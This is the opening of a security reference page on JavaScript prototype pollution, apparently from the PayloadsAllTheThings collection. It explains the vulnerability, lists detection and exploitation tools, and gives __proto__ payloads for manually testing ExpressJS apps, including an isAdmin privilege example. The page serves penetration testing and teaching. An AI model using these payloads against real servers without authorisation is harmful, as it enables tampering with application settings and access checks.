

repository: swisskyrepo/PayloadsAllTheThings · page: Prototype Pollution/index.html · generator: mkdocs

# Prototype Pollution

> Prototype pollution is a type of vulnerability that occurs in JavaScript when properties of Object.prototype are modified. This is particularly risky because JavaScript objects are dynamic and we can add properties to them at any time. Also, almost all objects in JavaScript inherit from Object.prototype, making it a potential attack vector.

## Summary

* [Tools](#tools)
* [Methodology](#methodology)
    * [Examples](#examples)
    * [Manual Testing](#manual-testing)
    * [Prototype Pollution via JSON Input](#prototype-pollution-via-json-input)
    * [Prototype Pollution in URL](#prototype-pollution-in-url)
    * [Prototype Pollution Payloads](#prototype-pollution-payloads)
    * [Prototype Pollution Gadgets](#prototype-pollution-gadgets)
* [Labs](#labs)
* [References](#references)

## Tools

* [yeswehack/pp-finder](https://github.com/yeswehack/pp-finder) - Help you find gadget for prototype pollution exploitation
* [yuske/silent-spring](https://github.com/yuske/silent-spring) - Prototype Pollution Leads to Remote Code Execution in Node.js
* [yuske/server-side-prototype-pollution](https://github.com/yuske/server-side-prototype-pollution) - Server-Side Prototype Pollution gadgets in Node.js core code and 3rd party NPM packages
* [BlackFan/client-side-prototype-pollution](https://github.com/BlackFan/client-side-prototype-pollution) - Prototype Pollution and useful Script Gadgets
* [portswigger/server-side-prototype-pollution](https://github.com/portswigger/server-side-prototype-pollution) - Burp Suite Extension detectiong Prototype Pollution vulnerabilities
* [msrkp/PPScan](https://github.com/msrkp/PPScan) - Client Side Prototype Pollution Scanner

## Methodology

In JavaScript, prototypes are what allow objects to inherit features from other objects. If an attacker is able to add or modify properties of `Object.prototype`, they can essentially affect all objects that inherit from that prototype, potentially leading to various kinds of security risks.

```js
var myDog = new Dog();
```

```js
// Points to the function "Dog"
myDog.constructor;
```

```js
// Points to the class definition of "Dog"
myDog.constructor.prototype;
myDog.__proto__;
myDog["__proto__"];
```

### Examples

* Imagine that an application uses an object to maintain configuration settings, like this:

    ```js
    let config = {
        isAdmin: false
    };
    ```

* An attacker might be able to add an `isAdmin` property to `Object.prototype`, like this:

    ```js
    Object.prototype.isAdmin = true;
    ```

### Manual Testing

* ExpressJS: `{ "__proto__":{"parameterLimit":1}}` + 2 parameters in GET request, at least 1 must be reflected in the response.
* ExpressJS: `{ "__proto__":{"ignoreQueryPrefix":true}}` + `??foo=bar`
* ExpressJS: `{ "__proto__":{"allowDots":true}}` + `?foo.bar=baz`
* Change the padding of a JSON response: `{ "__proto__":{"json spaces":" "}}` + `{"foo":"bar"}`, the server should return `{"foo": "bar"}`
* Modify CORS header responses: `{ "__proto__":{"exposedHeaders":["foo"]}}`, the server should return the header `Access-Control-Expose-Headers`.
* Change the status code: `{ "__proto__":{"status":510}}`
